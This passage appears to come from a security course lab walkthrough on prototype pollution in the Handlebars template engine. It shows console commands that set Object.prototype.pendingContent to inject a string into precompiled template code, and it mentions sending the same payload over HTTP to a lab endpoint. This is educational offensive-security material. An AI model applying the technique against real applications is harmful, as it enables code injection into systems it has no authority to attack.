   }
}
Listing 79 - AST of Input Template

The ContentStatement is used for the string portion of the template. In our case, its value is "hello ". Templates are not required to have a ContentStatement; however, for most templates to be useful, they will almost always have one. Therefore, injecting into pendingContent should almost always append content to the template.

Let's attempt to exploit this in our interactive CLI and then later exploit it using an HTTP request.

> {}.__proto__.pendingContent = "haxhaxhax"
'haxhaxhax'

> precompiled = Handlebars.precompile(ast)
'{"compiler":[8,">= 4.3.0"],"main":function(container,depth0,helpers,partials,data) {\n' +
  '    var helper, lookupProperty = container.lookupProperty || function(parent, propertyName) {\n' +
  '        if (Object.prototype.hasOwnProperty.call(parent, propertyName)) {\n' +
  '          return parent[propertyName];\n' +
  '        }\n' +
  '        return undefined\n' +
  '    };\n' +
  '\n' +
  '  return "haxhaxhaxhello "\n' +
  '    + container.escapeExpression(((helper = (helper = lookupProperty(helpers,"foo") || (depth0 != null ? lookupProperty(depth0,"foo") : depth0)) != null ? helper : container.hooks.helperMissing),(typeof helper === "function" ? helper.call(depth0 != null ? depth0 : (container.nullContext || {}),{"name":"foo","hash":{},"data":data,"loc":{"start":{"line":1,"column":6},"end":{"line":1,"column":15}}}) : helper)));\n' +  
  '},"useData":true}'
  
> eval("compiled = " + precompiled)
{ compiler: [ 8, '>= 4.3.0' ], main: [Function: main], useData: true }

> hello = Handlebars.template(compiled)
[Function: ret] {
  isTop: true,
  _setup: [Function (anonymous)],
  _child: [Function (anonymous)]
}

> hello({"foo": "student"})
'haxhaxhaxhello student'
Listing 80 - Exploiting with pendingContent

The "haxhaxhax" string was included in the compiled code and the final output. Now, let's set this using an HTTP request.

Make sure that the TEMPLATING_ENGINE is set to 'hbs' when starting docker-compose. This will ensure we are using the hbs templating engine.

Figure 24: Setting pendingContent in Payload
Figure 24: Setting pendingContent in Payload
With pendingContent set in the encrypted value, let's send the request to /guaclite and exploit the prototype pollution.

